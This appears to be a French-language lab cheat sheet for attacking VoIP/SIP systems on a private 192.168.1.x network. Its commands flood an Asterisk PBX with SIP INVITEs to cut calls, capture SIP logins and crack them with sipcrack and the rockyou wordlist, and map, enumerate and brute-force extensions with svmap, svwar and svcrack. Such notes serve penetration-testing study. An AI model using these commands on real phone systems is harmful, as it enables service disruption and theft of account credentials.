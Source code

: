 ## Attaque DDOS sur un serveur Asterisk
```Bash
inviteflood enp1s0 6001 192.168.1.21 192.168.1.39 100
```

||Description|
|---|---|
|enp1s0|Interface réseau|
|6001|Utilisateur SIP cible|
|192.168.1.21|Serveur PBX|
|192.168.1.39|Adresse IP du téléphone cible|
|100|Envoi de 100 paquets|

Comportement observé:
1. Coupure de ligne.
2. Déconnexions d’utilisateurs.

## Détecter et déchiffrer des connexions SIP avec SIPDUMP
Capture d’un login de session.
```Bash
sipdump -i enp1s0 logins.dump
```
* -i <interface> Permet d’indiquer une interface d’écoute.

* SIPCRACK permet de trouver les identifiants de connexion SIP.

Sur Kali Linux nous avons une liste de mots déjà prête du nom de "rockyou".
```Bash
cd /usr/share/wordlists/
```

On décompresse la liste de mots.
```Bash
gunzip rockyou.txt.gz
```

On lance le crack avec la liste de mots puis on indique quel est le login que nous voulons cracker puis
on valide:
```Bash
sipcrack -w /usr/share/wordlists/rockyou.txt logins.dump
```
* -w <liste de mots> liste de potentiels mot de passes, tous les mots de passes a essayer.

## Identification du serveur VoIP et des softphones ou téléphones Ip dans le réseau

```Bash
svmap 192.168.1.0/24
```

## Identification des numéros de ligne,(extension) sur le téléphone IP
```Bash
svwar -e1000-9000 192.168.1.39 -m INVITE --force
```

|Type d’authentification|Description|
|---|---|
|noauth|Extension qui ne requiert pas d’authentification.|
|reqauth|Extension qui requiert une authentification.|
|weird|L’extension existe probablement mais la réponse est
inattendue.|

Tentative pour déchiffrer le mot de passe.
```Bash
svcrack -u 6001 -d /usr/share/wordlists/rockyou.txt 192.168.1.39
```

Identification du serveur VoIP et des softphones ou téléphones IP dans le réseau.
Enregistrement d’un scan "SCAN2", (un scan du réseau à la recherche d'appareil SIP).
```Bash
svmap -s SCAN2 --randomize 192.168.1.0/24
```

Affichage de la liste des scans puis exportation d’un scan en document CSV.
```Bash
svreport list
```

```Bash
svreport export -f csv -o scan2.csv -s SAN2
```

Pour supprimer un scan.
```Bash
svreport delete -s scan1
```
